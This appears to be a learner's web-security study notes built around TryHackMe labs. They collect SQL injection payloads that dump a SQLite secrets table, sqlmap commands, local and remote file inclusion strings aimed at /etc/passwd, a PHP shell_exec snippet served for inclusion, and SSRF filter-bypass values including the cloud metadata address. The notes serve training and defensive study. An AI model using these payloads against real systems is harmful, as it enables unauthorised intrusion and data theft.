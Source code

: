 # R

* Remember for web/general/security

<hr class="sep-both">

## OWASP

* https://owasp.org/www-project-top-ten/
* Juiceshop
* https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
* https://github.com/OWASP/wstg
* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents
* https://github.com/OWASP/CheatSheetSeries
* https://www.zaproxy.org/
* https://github.com/OWASP/Amass

<hr class="sep-both">

## enum4linux

![Usage: Enumerating Information](https://img.shields.io/badge/usage-Enumerating%20Information-ffd700)

I don't know if there is still an `enum.exe`, because I can't find it, but you can use the tool [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) for enumerating information from Windows, and Samba hosts.

```bash
$ ./enum4linux.pl <options> <ip>
# -U : list of users
# -M : list of devices
# -S : list of shares
# -o : os data
# -i : printer data
# -v : verbose
```

<hr class="sep-both">

# Notes

* https://tryhackme.com/resources/blog/online-training-for-careers
* https://tryhackme.com/resources/blog/cyber-security-awareness-month
* There are websites on the Internet that allow you to check the reputation of an IP address to see whether it's malicious or suspicious.
  * AbuseIPDB
  * Cisco Talos Intelligence
  * https://ipinfo.io/
* https://www.virustotal.com/gui/home/upload
* https://www.hybrid-analysis.com/
* https://otx.alienvault.com/ (An open-source threat tracking system)

<hr class="sep-both">

# Learn again

* netdiscover
* https://www.sans.org/cyberaces/

<hr class="sep-both">

# SQL

* Input Box String: usual
* Input Box Non-String: when there is no quotes: `'' OR 1=1-- -`
* If you have trouble via a form (client-side verification) intercept the request
* Look into the field name to guess column names
* Update
  * none',nickName='lol
* Version
  * (SELECT banner FROM v$version)
  * sqlite_version()
    * SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
    * ',nickName=(SELECT group_concat(tbl_name, '<br>') FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
    * ',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
    * ',nickName=(SELECT group_concat(id || ":" || author || ":" || secret, '<br>') FROM secrets),email='
* https://www.kirsle.net/wizards/flask-session.cgi
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin"
  --level=5 --risk=3 --dbms=sqlite --technique=b --dump
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump --threads 10
* https://tryhackme.com/room/sqlilab
* See tamper script

<hr class="sep-both">

## Burp

* take a request captured in the Proxy, edit it, and send the same request repeatedly as many times as we wish
* tabs per request

<hr class="sep-both">

# weeb

* https://www.base64decode.org/
* https://www.base64encode.org/
* IDOR: if accounts are unpredictable, try making two accounts, and test if you can swap with both.
* URL/source code, scripts (see network tab)...
* https://canitakeyoursubdomain.name/
* https://secalerts.co/
* https://stack.watch/
* File inclusion
  * Local File Inclusion (LFI)
    * someone make a require/import of something fetched by the user, such as LANG (ex with `$_GET["lang"]`)
    * if there are error messages, it's easy to get the path good
    * Null Byte (< PHP 5.3.4, expecting EN -> EN.php, then "EN%00" or "EN0x00" ignore the ".php")
    * `/etc/passwd%00` (bypass simple filters)
    * `....//` (bypass filter with `../` as PHP will not replace the output)
    * it's also possible that the dev force the files to be in a folder, but we simply need to make a path starting with this folder then
  * Remote File Inclusion (RFI)
    * inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on
  * Path/Directory traversal: manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory
    * file_get_contents in PHP
    * ../[...]/etc/passwd (dot-dot-slash attack)
    * ../[...]/windows/win.ini
    * It may be worth noting that the root, it its own parent, so if you don't know the path of the server, you can still get add way more "../" than needed, and add a path starting from the root.
    * https://tryhackme.com/room/fileinc (common files)
* https://tryhackme.com/room/fileinc > Remediation
* https://tryhackme.com/room/fileinc > Common steps
* https://tryhackme.com/room/fileinc
  * curl 'http://10.10.187.94/challenges/chall1.php' -H 'Content-Type: application/x-www-form-urlencoded' -d 'file=/etc/flag1' 
  * Cookie, with a username, but it could be a file instead (:
  * The server uses $_REQUEST, so even if $_GET is filtered, we can get in, but it's kinda special for a setting
  * python -m http.server
  * http://10.13.3.244:8000/file

```php
<?php

echo shell_exec("hostname");
```

* SSRF Server-Side Request Forgery
  * Exploit a server to make a request to another services, that could be located on another machine, to look for a resource usually of the attacker's choosing
    * Regular SSRF: the client see the result
    * Blind SSRF: no information returned
  * Can be used to access/map internal/inaccessible areas
  * `a?api=path` -> `b/path`
  * `a?server=my?x=&api=path` -> `server?x=original_server/path`
    * if we manage to redirect the traffic to our domain
    * we could get some credentials (ex: API keys) in the headers
  * Look at
    * URL (full URL, or partial, or a path)
    * forms

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

* deny list or an allow list
  * Such as deny access to localhost which may contain server performance data or further sensitive information, bypass 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io
  * 169.254.169.254.may contains sensitive data in cloud environments
  * Allow List: allows those starting with "https://xxx.com", but you could make a domain name giving us "https://xxx.com.virus.com"
* An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.
* A form with profile images: give a path in it